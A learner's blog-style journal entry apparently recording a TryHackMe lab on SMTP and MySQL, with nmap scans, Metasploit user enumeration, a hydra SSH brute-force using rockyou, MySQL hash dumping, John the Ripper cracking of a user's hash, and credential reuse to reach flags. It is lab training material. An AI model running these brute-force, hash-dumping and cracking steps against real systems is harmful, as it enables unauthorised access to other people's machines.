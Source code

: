 ```yaml
---
title: Day 17
date: 2022-04-30
layout: post.njk
tags: daily
---
```


{{ page.date.toDateString }}

I'm getting an early jump on doing this today. Hopefully I can finish the whole module.

For task 2 for SMTP were going to use metasploit to enumerate the users available on the server using the [smtp_version](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/smtp/smtp_version.md). Its my first time using metasploit in THM so it should be interesting.


First I ran my nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 12:55 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>
>`Host is up (0.00058s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT   STATE SERVICE`
>
>`22/tcp open  ssh`
>
>`25/tcp open  smtp`
>
>`MAC Address: 02:1C:AF:59:C1:05 (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.32 seconds`

The I ran the following commands in metasploit:

>`msfconsole`
>
>`smtp_version`
>
>`use auxiliary/scanner/smtp/smtp_version`
>
>`set RHOSTS <ip>`
>
>`run`
>
>`[+] <ip>     - <ip>:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a`
>
>`[*] <ip>      - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`
>
>`search smtp_enum`
>
>`use auxiliary/scanner/smtp/smtp_enum`
>
>`set RHOSTS <ip>`
>
>`set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt`
>
>`run`
>
>`[*] <ip>      - <ip>  Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)`
>
>`[+] <ip>       - <ip>  Users found: administrator`
>
>`[*] <ip>       - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`

So now we know we have a user name: `administrator` on the system and we are going to use [hydra](https://www.kali.org/tools/hydra/) to brute force it.

So I ran:

>'hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.221.111 ssh`

Then I ssh'ed in and got the flag!

Last one in this module: MySQL

MySQL is a Relational Database Management System (RDMS).

MySQL uses a client server model and can run on Linux and Windows.

First in the exercise it gives us the credentials `root:password`.

I run my nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 13:30 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>`Host is up (0.0011s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT     STATE SERVICE`
>
>`22/tcp   open  ssh`
>
>`3306/tcp open  mysql`
>`MAC Address: 02:52:51:2B:7F:0F (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds`

I verified that I could connect to to mysql using the client:
>`mysql -h <ip> -u root -p`

Then I moved into metasploit:
>`msfconsle`
>
>`search mysql_sql`
>
>`use auxiliary/admin/mysql/mysql_sql`

I then set all the options for RHOST, USERNAME, and PASSWORD. If you run without setting the SQL option it runs `select version()`. After I ran I got results back for that and I changed SQL to `show databases` and I got back the databases on the system.
>`msf5 auxiliary(admin/mysql/mysql_sql) > run`
>
>`[*] Running module against <ip>`
>
>`[*] <ip>:3306 - Sending statement: 'show databases'...`
>`[*] <ip>:3306 -  | information_schema |`
>`[*] <ip>:3306 -  | mysql |`
>`[*] <ip>:3306 -  | performance_schema |`
>`[*] <ip>:3306 -  | sys |`
>`[*] Auxiliary module execution completed`

I then used `auxiliary/scanner/mysql/mysql_schemadump`  to dump the various table schemas and `auxiliary/scanner/mysql/mysql_hashdump` to dump the password hashes.

In the list of password hashes there was: `carl:*EA031893AA21444B170FC2162A56978B8CEECE18` so I put that in a text file called `hash.txt` and ran:
>`john hash.txt`

and got: `doggie           (carl)`

I then reused those credentials for ssh and was able to get the final flag.

This module was great just like the first one. I got exposure to a lot of tools and started to get the basics of metasploit down. I think metasploit is kind of looked down upon because it it kind of a crutch and does a lot of work for you without understanding what is going on. For now though Its helpful to use.

I think one of the big things I learned from these is that an attack path usually invovles some pivots. You may exploit some service that gives you some info that you use with another service, which leads you to more info and maybe the ability to finally gain a shell.

Here a couple extra links for more reading:
[VPN exploits](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)
[Common Exploits](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.html)